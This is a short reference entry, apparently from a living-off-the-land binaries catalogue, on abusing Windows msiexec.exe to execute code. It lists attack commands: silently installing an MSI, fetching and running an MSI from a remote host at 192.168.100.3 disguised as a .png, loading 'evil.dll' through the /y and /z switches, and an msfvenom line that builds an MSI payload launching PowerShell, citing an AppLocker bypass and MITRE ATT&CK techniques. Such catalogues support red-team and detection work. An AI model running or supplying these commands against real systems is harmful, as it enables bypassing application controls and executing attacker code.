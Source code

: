 ## Msiexec.exe

* Functions: Execute

```
msiexec /quiet /i cmd.msi    

msiexec /q /i http://192.168.100.3/tmp/cmd.png   

msiexec /y "C:\folder\evil.dll"   

msiexec /z "C:\folder\evil.dll"   
```

Acknowledgements:
* ? - @netbiosX
* PhilipTsukerman - @PhilipTsukerman

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
* https://twitter.com/PhilipTsukerman/status/992021361106268161

Full path:
```
c:\windows\system32\msiexec.exe
c:\windows\sysWOW64\msiexec.exe
```

Notes:
Generate MSI file:
```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi    
```



MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
